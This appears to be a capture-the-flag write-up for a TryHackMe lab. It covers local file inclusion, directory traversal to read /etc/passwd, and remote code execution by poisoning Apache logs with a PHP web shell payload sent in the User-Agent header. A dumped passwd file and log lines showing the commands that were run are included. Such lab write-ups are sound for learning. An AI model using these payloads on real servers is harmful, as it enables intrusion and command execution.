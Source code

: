 ```
IP = 10.10.49.1
```

## Local File Inclusion
-----------------------------------------------------

+ Add IP to env variable for simplicity. `export IP=10.10.49.1`
+ Local file inclusion at http://10.10.49.1/lfi/lfi.php
+ Tested using `?page=home.html` URL param.
+ Read `/etc/passwd` using page url variable.

## Local File Inclusion using Directory Traversal
-----------------------------------------------------

+ Directory traversal at http://10.10.49.1/lfi2/lfi.php
+ `?page=home.html` doesn't work.
+ LFI successful using `?page=../../../../../etc/passwd`.

## RCE using LFI and Log Poisoning
-----------------------------------------------------

+ Exploited the LFI at http://10.10.49.1/lfi/lfi.php to check apache log access.
+ Can successfully read logs. 
+ Fired up burp suite to craft a malicious payload supplied at user agent field.
+ Supplied `<?php system($_GET['lfi']); ?>` at user agent be able to execute commands at http://10.10.49.1/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=

## Artifacts
-----------------------------------------------------

+ `/etc/passwd` contents
```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false messagebus:x:106:110::/var/run/dbus:/bin/false uuidd:x:107:111::/run/uuidd:/bin/false lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false whoopsie:x:109:117::/nonexistent:/bin/false avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false saned:x:119:127::/var/lib/saned:/bin/false usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false lfi:x:1000:1000:THM,,,:/home/lfi:/bin/bash 
```
+ Apache log snippet after LFI RCE
```
...
10.6.27.197 - - [09/Oct/2020:12:31:16 -0700] "GET /lfi/lfi.php?page=/var/log/apache2/access.log HTTP/1.1" 200 826 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
10.6.27.197 - - [09/Oct/2020:12:33:35 -0700] "GET /lfi/lfi.php?page=/var/log/apache2/access.log HTTP/1.1" 200 835 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0)  Gecko/20100101 Firefox/78.0"
10.6.27.197 - - [09/Oct/2020:12:35:06 -0700] "GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=ls HTTP/1.1" 200 845 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
10.6.27.197 - - [09/Oct/2020:12:35:47 -0700] "GET /lfi/lfi.php?page=/var/log/apache2/access.log HTTP/1.1" 200 861 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0)  Firefox/78.0"
10.6.27.197 - - [09/Oct/2020:12:36:10 -0700] "GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=ls HTTP/1.1" 200 911 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
10.6.27.197 - - [09/Oct/2020:12:36:46 -0700] "GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=uname%20-a HTTP/1.1" 200 922 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
10.6.27.197 - - [09/Oct/2020:12:37:08 -0700] "GET /lfi/lfi.php?page=/var/log/apache2/access.log HTTP/1.1" 200 905 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0)  Firefox/78.0"
10.6.27.197 - - [09/Oct/2020:12:37:25 -0700] "GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=uname%20-a HTTP/1.1" 200 954 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
10.6.27.197 - - [09/Oct/2020:12:39:30 -0700] "GET /lfi/lfi.php?page=/var/log/apache2/access.log HTTP/1.1" 200 926 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) THM{a352a5c2acfd22251c3a94105b718fea}
 Firefox/78.0"
...
```

